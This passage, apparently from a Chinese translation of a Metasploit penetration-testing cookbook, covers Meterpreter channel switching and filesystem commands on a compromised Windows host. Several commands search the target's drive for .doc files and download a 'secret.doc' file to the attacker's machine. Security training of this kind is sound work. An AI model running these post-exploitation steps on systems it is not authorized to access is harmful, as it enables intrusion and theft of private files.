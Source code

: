 ```
meterpreter > interact 2
Interacting with channel 2...
Microsoft Windows [Version 6.1.7264]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\DARKLORD\Desktop> 
```

您可以看到我们的频道 2 是一个命令提示符频道，因此通过使用`interact`命令，我们直接进入了命令提示符模式，从那里我们可以执行系统命令。我们可以通过使用`interact`命令轻松地在频道之间切换。为了结束一个频道，我们可以使用`close`命令，后面跟着频道 ID。

这个教程演示了使用多个频道的强大功能。它还展示了同时管理它们和在不同频道之间切换有多么容易。当我们在目标机器上运行多个服务时，使用频道变得很重要。

在下一个教程中，我们将专注于使用 meterpreter 探索目标机器的文件系统。

## 它是如何工作的...

Metasploit 使用单独的频道 ID 为每条消息打上标签，这有助于识别应在其中执行特定命令的频道上下文。正如前面所述，meterpreter 中的通信过程遵循 TLV 协议，这使得可以使用特定的频道 ID 为不同的消息打上标签，以提供多频道通信支持的灵活性。

# Meterpreter 文件系统命令

在这个教程中，我们将继续使用文件系统命令。这些命令可以帮助我们探索目标系统，执行各种任务，比如搜索文件、下载文件和更改目录。您会注意到使用 meterpreter 轻松控制目标机器有多么容易。让我们开始使用一些有用的文件系统命令。

## 如何做...

我们将从简单的`pwd`命令开始，该命令列出了我们在目标机器上的当前工作目录。同样，我们可以使用`cd`命令将我们的工作目录更改为我们喜欢的位置：

```
meterpreter > pwd
C:\Users\DARKLORD\Desktop
meterpreter > cd c:\
meterpreter > pwd
c:\ 
```

正如您所看到的，我们首先使用`pwd`命令列出了我们的工作目录，然后使用`cd`命令将我们的工作目录更改为“c：”。我们还可以使用`ls`命令列出当前目录中可用的文件。

既然我们可以使用目录，我们的下一个任务将是在驱动器上搜索文件。浏览每个目录和子目录以寻找文件将非常乏味。我们可以使用`search`命令快速搜索特定文件类型。考虑以下示例：

```
meterpreter > search -f *.doc -d c:\ 
```

该命令将搜索`C`驱动器中具有`.doc`作为文件扩展名的所有文件。使用`f`参数指定要搜索的文件模式，`d`参数告诉要搜索哪个文件的目录。

所以一旦我们搜索到我们特定的文件，我们可以做的下一件事是将文件下载到目标机器上。让我们首先尝试将文件下载到我们的攻击系统：

```
meterpreter > download d:\secret.doc /root
[*] downloading: d:secret.doc -> /root/d:secret.doc
[*] downloaded : d:secret.doc -> /root/d:secret.doc 
```

通过使用`download`命令，我们可以成功地从目标机器下载任何文件到我们的机器。 “d：\secret.doc”文件在我们的攻击机器的`root`文件夹中下载。
